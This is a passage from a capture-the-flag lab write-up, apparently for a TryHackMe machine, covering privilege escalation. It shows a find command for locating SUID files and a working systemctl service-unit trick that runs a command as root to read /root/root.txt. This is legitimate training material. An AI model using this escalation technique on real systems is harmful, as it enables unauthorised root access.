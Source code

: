 ## Privilege Escalation

- search for SUID and SGID files `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
    
    ![Untitled](images/Untitled%2021.png)
    
- we can see that /bin/systemctl is a SUID file, so we can create a systemctl service and run it with root privilege
- let’s check how to do this in [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/)
- first, create a file and store it in “flag” variable
- create a Service file and store it in “flag” variable
    - ExecStart=”what we want”
    - in our case we make the service get the content of root.txt file and redirect it to /tmp/flag.txt
- create a link to  the file

```bash
flag=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag.txt"
[Install]
WantedBy=multi-user.target' > $flag
/bin/systemctl link $flag
/bin/systemctl enable --now $flag
```

![Untitled](images/Untitled%2022.png)

---

## I hope you enjoyed the write-up
 
- [Linkedin](https://www.linkedin.com/in/juba0x00/)
- [Twitter](https://twitter.com/juba0x00/)
- [TryHackMe](https://tryhackme.com/p/Juba0x430x55)